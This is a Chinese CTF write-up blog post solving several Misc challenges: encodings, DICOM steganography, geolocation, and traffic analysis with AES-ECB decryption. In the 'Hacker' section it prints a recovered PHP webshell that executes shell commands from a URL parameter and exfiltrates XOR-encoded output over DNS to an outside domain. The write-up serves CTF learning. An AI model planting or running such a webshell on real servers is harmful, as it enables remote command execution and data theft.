# 2023&2024 红明谷初赛 Misc Writeup

**连续打了两年的红明谷了，两次都没进决赛，红明谷的Misc题也是一如既往的抽象。**
<!--more-->


## 阿尼亚

**题目附件给了一个 flag.zip 和 netpixeljihad.png，因此猜测 png 就是 pixeljihad 加密**


**png 图片末尾有额外的数据，010 提取出来使用 CyberChef 两次Hex解码 +Text Encoding Brute Force**



**即可得到：密码为：简单的编码**

**使用得到的密码用 在线网站解密即可得到压缩包密码：P@Ss_W0RD:)**



**用得到的密码解压压缩包，可以得到如下编码，一眼 Decabit 编码**

+-+-++--+- ++---+-++- -+--++-++- +--++-++-- --+++++--- ++-++---+- +++-+-+--- +-+-+---++ ---+++-++- -+--++-++- -+--+++-+- -+--++-++- -+--++-++- ++-+-+-+-- -+--+++-+- ++-++---+- -++++---+- -+--++-++- ++-+-+-+-- +-+++---+- +++-++---- ---+++-++- +-+-+---++ ++-+-+-+-- +-+-+--++- ++--+--++- -++++---+- +---+++-+- ++-+-+-+-- -++++---+- -+--+++-+- +--+-+-++- +++-+-+--- +-+++---+- -+--+-+++- -+--++-++- ---+++-++- ++++----+- -++++---+- -+--+++-+- -+--++-++- ----+++++-

**直接使用 [在线网站](https://www.dcode.fr/decabit-code) 解密即可得到 flag{386baeaa-e35a-47b6-905d-5e184cab25ea}**


## Hacker

**题目附件给了一个流量包，追踪流量包的 HTTP流 可以看出应该是传了一个名为 xxx1.php 的 webshell，从而实现了 RCE**




**在流2中发现了上传的 webshell 的源码**



```php
fileContent=<?php file_put_contents('/app/zentaopms/www/xxx1.php', 
'<?php $servername="127.0.0.1";
$username="root";
$password="123456";
$dbname="zentao";
$conn=new PDO("mysql:host=$servername;dbname=$dbname",$username,$password);
$conn->setAttribute(PDO::ATTR_ERRMODE,PDO::ERRMODE_EXCEPTION);
// 从这里可以看出后面要用的密钥是admin用户的密码
$stmt=$conn->prepare("SELECT password FROM zt_user WHERE account=\'admin\'");
$stmt->execute();
$result=$stmt->fetch(PDO::FETCH_ASSOC);
$conn=null;
$param=$_GET["cmd"];
$password=$result["password"];
$output=shell_exec($param);
$hex_output=bin2hex($output);
$hex_password=bin2hex($password);
$len_output=strlen($hex_output);
$len_password=strlen($hex_password);
$max_subdomain_length=62;
$subdomain_base="yafgcy.ceye.io";
$hex_xor="";
for ($i=0;$i<$len_output;$i++) {
	$char_output=$hex_output[$i];
	$char_password=$hex_password[$i%$len_password];
	$char_xor=dechex(hexdec($char_output)^hexdec($char_password));
	if(strlen($hex_xor.$char_xor)>$max_subdomain_length) {
		if(strlen($hex_xor)%2!=0) {
			$subdomain="0"."$hex_xor.$subdomain_base";
		} else {
			$subdomain="$hex_xor.$subdomain_base";
		}
		gethostbyname($subdomain);
		$hex_xor="";
	} else {
		$hex_xor.=$char_xor;
	}
}
// 将命令执行的结果通过 DNS log 外带
if(strlen($hex_xor)%2!=0) {
	$subdomain="0"."$hex_xor.$subdomain_base";
} else {
	$subdomain="$hex_xor.$subdomain_base";
}
gethostbyname($subdomain);
?>');?>
```

**从上面的源码中可以看到命令执行的返回结果通过 DNS log 外带了，因此我们需要关注请求包中的域名字段**

**在流2中也可以看到 admin 的密码被 SQL 注入注出来了**



**admin:8a3e684c923b763d252cf1e8734a7a29**

**现在有了加密的源码和密钥，就可以恢复原来的命令返回结果了**

**首先使用 tshark 提取出 dns.qry.name 字段的值，并筛选出含有 yafgcy.ceye.io 的数据**



**筛选并删去 yafgcy.ceye.io 后可以得到下面的数据**

```
59115a4b465044695a5a56015c4252065e501c130e416f5c5647556b510044
05b0e5d4b5f5b5b69505c57074f18430c423f5b0c0852105a521d4409476b5
4a32135c07594c474d4d4a47684453501657411c171e456f4c5f5659043d19
0c495011391d4e40054d495a4368
79227024716c7522787370254c777230667673222570247b76677322632671
d7b357226771575227a7372237677702573611f372570317b7672772076206
1479207024777b60247e6674231a626727666171372570317f766773207620
067879226731756c60206d75703670754e
```

**然后我们根据源码中的加密逻辑，直接使用 CyberChef 异或 admin 的密码即可**

**解密字符串的时候需要注意有些密文解密时需要删去前面部分字符**

**解密最后四条数据可以得到奇怪的字符串，赛后知道了这是 [DNA 编码](https://github.com/karma9874/DNA-Cipher-Script-CTF)**




**所有得到的字符串如下所示**

```
ACCAGTAAAACG{AATTCAACAACATGCTGC
CTACA-AACAAAAACAAT-TCATCAACAAA4
AACAACTGGTGA-TTCTTCTCATGATGAAA
ACTTCTTCTGCTGC}
```

**参考 DNA编码 中的对照表以及结合 flag 是 uuid字母全小写 的格式，可以看出编码头部和尾部有部分数据丢失**

```
ACC AGT AAA ACG{AAT TCA ACA ACA TGC TGC
 f   l   a   g { d   1	 e	 e   6   6
?CT     ACA-AAC AAA AAC AAT - TCA TCA ACA AA?
h/x/4	 e - b	a	b	d  -  4   4   i  a/q
AAC AAC TGG TGA - TTC TTC TCA TGA TGA AA?
 b   b   7   5  -  0   2   1   5   5   a/q
?AC TTC TTC TGC TGC}
b/r	 0   0   6   6}
```

**通过对上面几个位置的字符进行爆破，即可得到最终flag: flag{d1ee664e-babd-11ed-bb75-00155db0066}**

## X光的秘密

**题目附件给了一个 task.dcm 文件，根据 [参考文章](https://www.zhihu.com/tardis/zm/art/419860110?source_id=1005) 用 MicroDicom 打开发现有20张图片，尝试导出**

**这里导出的时候要注意 不要勾选保留注释 ，然后以 没有覆盖 的格式导出**




**导出来后发现有20张png的图片，然后用 Stegsolve 逐一查看每张图片，在最后三张图片中发现 LSB 的痕迹**

**下图中标红的地方就是 LSB 隐写的痕迹**




**赛后看了别的大佬的 wp 知道这里是把后面三张图片红色0通道的数据转为二进制，然后一位一位拼接起来**

**其实这里红色0通道、蓝色0通道、绿色0通道都有LSB隐写，并且隐写的数据都是一样的，因此随便选哪个都行**




**这里我们就比较常规的选择红色0通道的数据，这里可以用 stegsolve 直接导出数据，或者也可以用脚本提取**







```bash
0x91: 1001 0001
0x61: 0110 0001
0x16: 0001 0110
# 将上面三段数据的每位二进制值连起来
100010010101000001001110
0x89 0x50 0x4e
# 很明显出现了 png 的文件头
```

```python
from PIL import Image
import libnum


def get_LSB(filepath):
    image = Image.open(filepath)
    width, height = image.size
    # print(width, height)
    lsb_data = []
    for y in range(height):
        for x in range(width):
            pixel = image.getpixel((x, y))
            # print(pixel) # (1, 1, 1, 255)
            # 提取红色通道的 LSB
            lsb = pixel[0] & 1
            lsb_data.append(str(lsb))
    return lsb_data


def solve():
    data = ""
    lsb_data1 = get_LSB("18.png")
    lsb_data2 = get_LSB("19.png")
    lsb_data3 = get_LSB("20.png")
    # print(len(lsb_data1)) # 262144
    # print(len(lsb_data2)) # 262144
    # print(len(lsb_data3)) # 262144
    for i in range(len(lsb_data1)):
        data += lsb_data1[i]+lsb_data2[i]+lsb_data3[i]
    data = libnum.b2s(data)
    with open("flag.png", "wb") as f:
        f.write(data)


if __name__ == "__main__":
    solve()
```

**运行上述脚本提取数据并以 bytes 格式保存为 png 即可得到flag：flag{43159cf6-ff7f-47fc-a199-d14df05b9975}**




## 定位签到

**题目附件给了经纬度，直接在线网站输入经纬度查询即可，flag{三明北站}**



## 加密流量

**题目附件给了一个流量包，打开发现主要是UDP流量**




**过滤器中输入 udp 过滤出 udp流量，然后在第4帧的data中发现有 hex 数据，CyberChef 解码即可**





**与上同理，解码第5帧的数据，可以得到 AES-EBC FF**




**因此，我们可以猜测这道题肯定与AES-ECB加密算法（不用偏移量iv）有关，然后再某个地方要用到FF**

**这里就比较脑洞了，FF是用来异或的，但是好像之前也有遇到类似的，感觉FF这个值拿来异或的情况挺多的**

**然后我们比较第7帧和第31帧的数据**

**第7帧：**

***ada796133d9a31fa60df7a80fd81eaf6114e62d593b31a3d9eb9061c446a505698608c1e8a0e002b55272a33268c3752***
**第31帧：(这里数据比较长，因此我们这里就只放部分数据)**

**ada796133d9a31fa60df7a80fd81eaf6a8642abc3e1b87b97d5914deaf34a5990de3339105f40d4bca0dc7c82893c8f470d2ce54ec5386a6e7dda6adbe92c7fdbb0f328790f6a2f098084892b2f2554fc6e632da9e00f4791118444dc7f58666f1a568ed25a8a4ef039bc2d92432e514f1a5……**

**通过仔细观察可以发现，二者的前128位数据是一样的，而AES-ECB加密算法常见的密钥也是128位**

**因此，我们就可以从这里入手猜测AES-ECB加密的密钥**

**赛后看了冰峰大佬的wp后才知道这里需要 xor FF（本人水平不够，实在想不到）**




**知道密钥之后，后面的步骤就不难了，都是常规操作**

**把第7帧数据的前128位删除，然后用上面的密钥进行AES-ECB解密可以得到一个 test_flag**




**同理，解密第31帧的数据，CyberChef 识别出来是一个OLE2文件**




**尝试提取出来，然后在Windows下用 oletools 进行分析**

**我们使用 olevba 分析，可以得到下面这个宏代码，可以看出 flag 异或了 0x0A**



```vb
VBA MACRO Sheet1
in file: .\download.ole2 - OLE stream: 'Sheet1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sub Decrypt()
    Dim encryptedStr As String
    Dim key As Integer
    Dim decryptedStr As String
    Dim i As Integer

    encryptedStr = InputBox("Enter the encrypted string:")
    key = &HA

    decryptedStr = ""

    For i = 1 To Len(encryptedStr)
        decryptedStr = decryptedStr & Chr(Asc(Mid(encryptedStr, i, 1)) Xor key)
    Next i

    MsgBox "Decrypted String: " & decryptedStr
End Sub

' 6c666b6d713f333f323c383a6b6c6f3e693f3c6f683b396f326c6e683f6f3b3a6e3e6c3d3977
```

**所以我们直接用 CyberChef 异或 0x0A 即可得到 flag{5958620afe4c56eb13e8fdb5e10d4f73}**




---

> Author: [Lunatic](https://goodlunatic.github.io)  
> URL: https://goodlunatic.github.io/posts/e49ecc5/  

